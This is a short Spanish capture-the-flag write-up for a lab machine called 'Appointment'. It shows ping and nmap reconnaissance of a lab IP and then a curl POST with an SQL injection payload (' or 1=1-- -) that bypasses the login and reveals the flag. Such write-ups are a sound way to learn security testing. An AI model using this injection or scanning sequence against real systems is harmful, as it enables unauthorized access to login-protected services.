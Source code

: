 # Appointment

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.139.189

PING 10.129.139.189 (10.129.139.189) 56(84) bytes of data.
64 bytes from 10.129.139.189: icmp_seq=1 ttl=63 time=1796 ms

--- 10.129.139.189 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1796.385/1796.385/1796.385/0.000 ms
```

> Sistema operativo:  **Linux**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.139.189 -oG openPorts

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 80 -sCV 10.129.139.189 -oN targeted

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login
```

| Puerto | Servicio | Versión             |
| ------ | -------- | ------------------- |
| 80     | http     | Apache httpd 2.4.38 |

🗹 Realizar una petición POST con `curl` modificando el campo `username`:

```shell
curl -s -X POST http://10.129.139.189 -d "username=' or 1=1-- -&password=password"
```
## Flag

La flag se visualiza en la respuesta a la petición POST.
